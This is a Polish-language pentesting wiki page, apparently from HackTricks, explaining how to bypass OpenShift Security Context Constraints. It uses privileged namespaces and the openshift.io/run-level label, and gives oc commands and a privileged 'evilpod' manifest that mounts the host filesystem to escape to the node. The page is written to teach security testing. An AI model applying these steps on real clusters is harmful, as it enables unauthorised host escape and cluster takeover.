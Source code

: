# Openshift - SCC bypass

{{#include ../../../banners/hacktricks-training.md}}

**Oryginalnym autorem tej strony jest** [**Guillaume**](https://www.linkedin.com/in/guillaume-chapela-ab4b9a196)

## Privileged Namespaces

Domyślnie, SCC nie stosuje się do następujących projektów:

- **default**
- **kube-system**
- **kube-public**
- **openshift-node**
- **openshift-infra**
- **openshift**

Jeśli wdrożysz pody w jednym z tych przestrzeni nazw, żadne SCC nie będzie egzekwowane, co pozwala na wdrażanie uprzywilejowanych podów lub montowanie systemu plików hosta.

## Namespace Label

Istnieje sposób na wyłączenie zastosowania SCC na twoim podzie zgodnie z dokumentacją RedHat. Będziesz potrzebować przynajmniej jednej z następujących uprawnień:

- Utwórz przestrzeń nazw i utwórz pod w tej przestrzeni nazw
- Edytuj przestrzeń nazw i utwórz pod w tej przestrzeni nazw
```bash
$ oc auth can-i create namespaces
yes

$ oc auth can-i patch namespaces
yes
```
Specyficzna etykieta `openshift.io/run-level` umożliwia użytkownikom obejście SCC dla aplikacji. Zgodnie z dokumentacją RedHat, gdy ta etykieta jest używana, żadne SCC nie są egzekwowane na wszystkich podach w danej przestrzeni nazw, skutecznie usuwając wszelkie ograniczenia.

<figure><img src="../../../images/Openshift-RunLevel4.png" alt=""><figcaption></figcaption></figure>

## Dodaj etykietę

Aby dodać etykietę w swojej przestrzeni nazw:
```bash
$ oc label ns MYNAMESPACE openshift.io/run-level=0
```
Aby utworzyć przestrzeń nazw z etykietą za pomocą pliku YAML:
```yaml
apiVersion: v1
kind: Namespace
metadata:
name: evil
labels:
openshift.io/run-level: 0
```
Teraz wszystkie nowe pody utworzone w przestrzeni nazw nie powinny mieć żadnych SCC

<pre class="language-bash"><code class="lang-bash"><strong>$ oc get pod -o yaml | grep 'openshift.io/scc'
</strong><strong>$
</strong></code></pre>

W przypadku braku SCC nie ma żadnych ograniczeń dotyczących definicji twojego poda. Oznacza to, że złośliwy pod może być łatwo utworzony, aby uciec na system gospodarza.
```yaml
apiVersion: v1
kind: Pod
metadata:
name: evilpod
labels:
kubernetes.io/hostname: evilpod
spec:
hostNetwork: true #Bind pod network to the host network
hostPID: true #See host processes
hostIPC: true #Access host inter processes
containers:
- name: evil
image: MYIMAGE
imagePullPolicy: IfNotPresent
securityContext:
privileged: true
allowPrivilegeEscalation: true
resources:
limits:
memory: 200Mi
requests:
cpu: 30m
memory: 100Mi
volumeMounts:
- name: hostrootfs
mountPath: /mnt
volumes:
- name: hostrootfs
hostPath:
path:
```
Teraz łatwiej jest eskalować uprawnienia, aby uzyskać dostęp do systemu hosta, a następnie przejąć cały klaster, uzyskując uprawnienia 'cluster-admin'. Szukaj części **Node-Post Exploitation** na poniższej stronie:

{{#ref}}
../../kubernetes-security/attacking-kubernetes-from-inside-a-pod.md
{{#endref}}

### Niestandardowe etykiety

Ponadto, w zależności od docelowej konfiguracji, niektóre niestandardowe etykiety / adnotacje mogą być używane w ten sam sposób, co w poprzednim scenariuszu ataku. Nawet jeśli nie są do tego przeznaczone, etykiety mogą być używane do nadawania uprawnień, ograniczania lub niekoniecznie konkretnego zasobu.

Spróbuj poszukać niestandardowych etykiet, jeśli możesz odczytać niektóre zasoby. Oto lista interesujących zasobów:

- Pod
- Deployment
- Namespace
- Service
- Route
```bash
$ oc get pod -o yaml | grep labels -A 5
$ oc get namespace -o yaml | grep labels -A 5
```
## Wypisz wszystkie uprzywilejowane przestrzenie nazw
```bash
$ oc get project -o yaml | grep 'run-level' -b5
```
## Zaawansowane wykorzystanie

W OpenShift, jak pokazano wcześniej, posiadanie uprawnień do wdrożenia poda w przestrzeni nazw z etykietą `openshift.io/run-level` może prowadzić do prostego przejęcia klastra. Z perspektywy ustawień klastra, ta funkcjonalność **nie może być wyłączona**, ponieważ jest wbudowana w projekt OpenShift.

Jednakże, środki łagodzące, takie jak **Open Policy Agent GateKeeper**, mogą zapobiegać użytkownikom w ustawianiu tej etykiety.

Aby obejść zasady GateKeepera i ustawić tę etykietę w celu przejęcia klastra, **atakujący musieliby zidentyfikować alternatywne metody.**

## Odniesienia

- [https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html](https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html)
- [https://docs.openshift.com/container-platform/3.11/admin_guide/manage_scc.html](https://docs.openshift.com/container-platform/3.11/admin_guide/manage_scc.html)
- [https://github.com/open-policy-agent/gatekeeper](https://github.com/open-policy-agent/gatekeeper)



{{#include ../../../banners/hacktricks-training.md}}
